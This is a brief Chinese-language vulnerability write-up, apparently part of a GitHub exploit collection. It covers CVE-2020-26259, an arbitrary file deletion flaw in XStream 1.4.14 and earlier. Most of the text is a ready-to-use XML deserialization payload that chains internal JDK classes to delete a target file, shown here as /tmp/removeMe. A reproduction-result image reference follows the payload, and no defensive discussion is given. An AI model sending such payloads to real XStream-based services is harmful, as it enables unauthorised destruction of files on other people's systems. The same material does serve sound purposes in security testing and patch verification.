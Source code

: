 # Xstream <= 1.4.14 任意文件删除（CVE-2020-26259）

## 漏洞描述

Xstream <= 1.4.14 任意文件删除

## writeup

- POC

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
              <tempFile>/tmp/removeMe</tempFile>
            </is>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

## 复现结果

![](./1.png)